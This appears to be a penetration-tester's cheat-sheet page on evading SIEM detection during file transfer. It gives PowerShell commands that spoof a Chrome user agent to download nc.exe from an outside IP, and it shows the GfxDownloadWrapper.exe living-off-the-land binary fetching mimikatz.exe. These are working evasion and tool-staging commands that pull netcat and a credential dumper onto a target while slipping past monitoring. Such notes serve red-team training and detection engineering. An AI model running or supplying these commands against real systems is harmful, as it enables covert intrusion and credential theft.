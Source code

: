 ```yaml
---
hidden: true
---
```


# Detection And Evasion

## File Transfer DaE

**A lot of SIEM (Security Information and Event Management) are checking** `user-agents` **to detect sus traffic.** But `user-agents` are not only used to identify web browsers, but anything acting as HTTP client and connecting to a web server via HTTP can have user agent string (like `cURL`, custom `Python` script or common tools like `sqlmap` and `nmap`). So File transfers could be detected.

### Evasion Techniques

#### Changing User Agent:

1. **Listing out User Agents**

```powershell
PS C:\carnifex17>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

2. **Request with Chrome User Agent**

```powershell
PS C:\carnifex17> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\carnifex17> Invoke-WebRequest http://13.13.13.13/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, but not from using `Living Off the Land` Binaries. As example LOLBIN is the Intel Graphics Driver for Windows 10(GfxDownloadWrapper.exe), which could be used to file transfer

1. **Transferring File with GfxDownloadWrapper.exe**

```powershell
PS C:\carnifex17> GfxDownloadWrapper.exe "http://13.13.13.13/mimikatz.exe" "C:\Temp\nc.exe"
```

***
